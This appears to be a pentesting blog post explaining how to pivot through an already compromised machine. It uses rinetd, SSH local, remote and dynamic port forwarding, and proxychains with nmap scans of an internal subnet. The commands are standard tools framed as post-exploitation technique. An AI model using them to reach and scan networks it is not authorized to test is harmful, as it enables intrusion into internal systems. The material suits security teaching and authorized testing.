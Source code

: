 ```yaml
---
date: 2015-09-17
title: Port forwarding and tunneling
tags:
- ssh
- post exploitation
- pivot
see_also:
  -
    link: Hak5 videos
    url: https://www.youtube.com/watch?v=Wuu_n0Pvbsk
  -
    link: Port forwarding tutoriel on linux-france (fr)
    url: http://www.linux-france.org/prj/edu/archinet/systeme/ch13s04.html
---
```

As a pentester, you might be able to take control of systems that have a direct access but you also might be able to test the internal network and check the machine who are inside a subnetwork. 
<!--more-->

For that task you'll have to use an already compromised machine as a bridge/gateway, this technic is called "pivot". 
Depending of the context, different solutions exist to perform that task.

## Rinetd

The easiest one. First you need to install Rinetd:

```none
aptitude search rinetd
p   rinetd                                     - Internet TCP redirection server</pre>
```

Then edit the `/etc/rinetd.conf` file:

```none
# bindadress    bindport  connectaddress  connectport
192.168.0.10    80        91.121.139.22   8080
```

Restart Rinetd and from now, all incoming traffic on `192.168.0.10` on port `80` will be redirected to `91.121.139.22` on port `8080`. 
This can be usefull if a firewall is restricting outbound traffic on certain port.


## SSH

### Local port forwarding

`ssh -L <local port to listen>:<remote host>:<remote port> <gateway>`

Similar to port forwarding with Rinetd, this technic still have some tints. The traffic is encrypted but only between the local machine and the gateway. 
If the remote host is `localhost` then it refers to the gateway. Example:

```none
ssh -L 8080:192.168.1.25:80 bob@192.168.0.10
```

This open a tunnel between the local machine on port `8080` to `192.168.1.25` on port `80` trough the ssh server `192.168.0.10` connected with user `bob`. 
Connexion from other machines are not accepted by default, to enable this feature you have to use the `-g` option.

### Remote port forwarding

`ssh -R <remote port to bind>:<local host>:<local port> <gateway>`

Note that this must be launched on the already compromised machine ! In this case if the local host is `localhost` then it refers to the local machine. Example:

```none
ssh -R 1234:192.168.1.25:80 bob@192.168.0.10
```

This pop a reverse shell on `192.168.0.10` connected with user `bob` and create a tunnel on port `1234` wich will receive all traffic from `192.168.1.25` on port `80`.

## ProxyChains

As a standalone, Proxychains is mainly used to anonymize traffic but combined with SSH it can be used to perform dynamic port forwarding.

```none
$ aptitude search proxychains
p   libproxychains-dev                - proxy chains -- shared library (development)
p   libproxychains3                   - proxy chains -- shared library (runtime)
p   proxychains                       - proxy chains - redirect connections through proxy servers</pre>
```

When the install is finished, edit `/etc/proxychains.conf` as here:

```none
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

Then we can create a tunnel wich will forward all incoming traffic to any host in the internal network trough the compromised machine which runs the ssh server. Syntax:

`ssh -D <local proxy> <target>`

Example:

```none
$ ssh -D 127.0.0.1:9050 bob@192.168.0.10
```

From now we can perform scans or anything else on every port on every machine in the DMZ with Proxychains:

```none
$ proxychains nmap -p 139,445 192.168.1.100-200
```


## External resources

- [Hak5 videos](https://www.youtube.com/watch?v=Wuu_n0Pvbsk)
- [Port forwarding tutoriel on linux-france (fr)](http://www.linux-france.org/prj/edu/archinet/systeme/ch13s04.html)
